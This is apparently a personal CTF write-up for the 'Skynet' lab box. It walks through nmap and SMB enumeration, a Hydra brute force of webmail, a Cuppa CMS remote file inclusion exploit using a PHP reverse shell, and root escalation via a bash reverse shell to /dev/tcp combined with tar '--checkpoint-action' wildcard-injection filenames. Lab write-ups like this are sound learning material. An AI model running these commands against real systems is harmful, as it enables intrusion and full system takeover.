










# Skynet

## Nmap Scan
- Ran scan against target machine
  `nmap -sS -A -O -p- 10.10.137.142`

  

- Ran DirBuster to find directories

    

- Ran `smbmap` to find smb shares

    

- Found the `anonymous` share with READ ONLY access - attempt to connect to it

    

- Download a copy of the found `.txt` files 

    

- The `log1.txt` has what looks like a list of password. With this we can use BurpSuite to capture requests and hydra to brute force the site.

    

- Use Hydra to attempt to Brute Force

    

- From this we get the login and are able to login to the user `milesdyson` webmail. 
- Found an email that contains a password for a samba share, use that to login to the `milesdyson` samba share

- Found a file named `important.txt` and got a copy of that 
- From that we get a hidden directory, used `DirBuster` against this to find this admin page

    

- Search for a cuppa vulnerability using `searchsploit`

    

- Used the exploit against the target and was able to get the `/etc/passwd` file

    

- This shows that we can perform Local File Inclusion. Pulled this attack off by following these steps:
  1. Grabbed a `php-reverse-shell.php` from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
  2. Made appropriate changes to IP and Port information
  3. Made this available using `python -m http.server`
  4. Started a listener using `nc -nlvp 4445`
  5. Adapted the exploit URL to my scenario (http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?)
  6. Looked for the flags

    

- Followed these steps to get a root shell - create a listener using `nc -nlvp 6666`

```
$ printf '#!/bin/bash\nbash -i >& /dev/tcp/10.8.50.72/6666 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
```